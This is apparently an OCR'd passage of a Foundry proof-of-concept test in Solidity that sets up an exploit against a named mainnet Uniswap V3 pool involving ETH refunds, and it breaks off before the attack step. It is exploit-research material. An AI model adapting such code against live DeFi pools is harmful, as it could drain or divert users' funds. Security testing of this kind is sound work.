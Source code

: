 ```solidity
        // Wrap and transfer the weth to the pool
        weth.deposit{value: _amountToSend}();
        weth.transfer(address(pool), _amountToSend);
    }
    receive() external payable {}
}
contract UniswapV3ETHRefundExploitTest is Test {
    // IPool pool = IPool(0x88e6A0c2dDD26FEEb64F039a2c41296FcB3f5640);
    IPool pool = IPool(0x7379e81228514a1D2a6Cf7559203998E20598346);

    IERC20 projectToken;
    IWETH9 weth = IWETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    function setUp() public {
        vm.createSelectFork("https://rpc.ankr.com/eth");

        vm.label(address(projectToken), "ProjectToken");
        vm.label(address(weth), "WETH");

        address pt = pool.token0();
        if (pool.token0() == address(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2)) {
            pt = pool.token1();
        }

        projectToken = IERC20(pt);
    }

    function testExploit() public {
        console.log("Testing for a pool :", address(pool));
        console.log("================================================================");
        Swapper swapper = new Swapper(pool);

        vm.label(address(swapper), "swapper");

        address user = makeAddr("user");
        uint256 amountIn = 1000_000 ether;
        uint256 minOutput = 0;

        vm.label(user, "user");
        vm.deal(user, amountIn);

        emit log_named_decimal_uint("Before: Balance of Pool's WETH:", weth.balanceOf(address(pool)), 18);
        emit log_named_decimal_uint("Before: Balance of Pool's Project Token:", projectToken.balanceOf(address(pool)), 18);
        console2.log();

        emit log_named_decimal_uint("Before: Balance of ETH (swapper):", address(swapper).balance, 18);
        emit log_named_decimal_uint("Before: Balance of WETH (swapper):", weth.balanceOf(address(swapper)), 18);
        emit log_named_decimal_uint("Before: Balance of Project Token (swapper):", projectToken.balanceOf(address(swapper)), 18);
        console2.log();

        emit log_named_decimal_uint("Before: Balance of ETH (user):", user.balance, 18);
        emit log_named_decimal_uint("Before: Balance of WETH (user):", weth.balanceOf(user), 18);
        emit log_named_decimal_uint("Before: Balance of Project Token (user):", projectToken.balanceOf(user), 18);
        console2.log();

        vm.prank(user);
```